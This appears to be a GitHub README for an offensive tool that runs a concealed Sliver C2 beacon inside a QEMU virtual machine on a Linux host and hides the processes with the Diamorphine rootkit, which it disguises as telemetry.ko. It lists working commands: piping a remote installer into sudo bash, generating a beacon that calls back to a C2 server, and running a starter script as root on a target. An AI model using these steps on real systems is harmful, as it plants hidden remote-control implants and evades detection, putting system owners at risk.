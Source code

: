 Linux environment setup script that builds u-root, runs a concealed Sliver C2 agent in QEMU, and hides the process using Diamorphine rootkit.
Static network configuration with custom MAC address.

Tested on Ubuntu 16.04.7 LTS (Xenial Xerus) (GNU/Linux 4.4.0-186-generic x86_64).

- Change IP address of your C2 server;
- Compile Sliver C2 beacon as following:
```bash
curl https://sliver.sh/install|sudo bash

sliver

generate beacon --mtls 10.4.10.10:443 --os linux --arch amd64 --format elf --save slivki

mtls --lport 443
```
- Add slivki (Sliver C2 beacon), telemetry.ko (Diamorphine rootkit) and deploy.sh script to a deploy.tar.gz archive and execute starter.sh on a host as root;



Credits:

- https://github.com/m0nad/Diamorphine
- https://github.com/u-root/u-root
- https://github.com/qemu/qemu
- https://github.com/BishopFox/sliver

---

VM in QEMU:

![Image 1](https://i.imgur.com/yxWqAgM.jpeg)

Before rootkit execution:

![Image 2](https://i.imgur.com/uLHbYHd.jpeg)

QEMU processes hidden on a host:

![Image 3](https://i.imgur.com/jD5UP5b.jpeg)

Unhiden:

![Image 4](https://i.imgur.com/dTE7umq.jpeg)

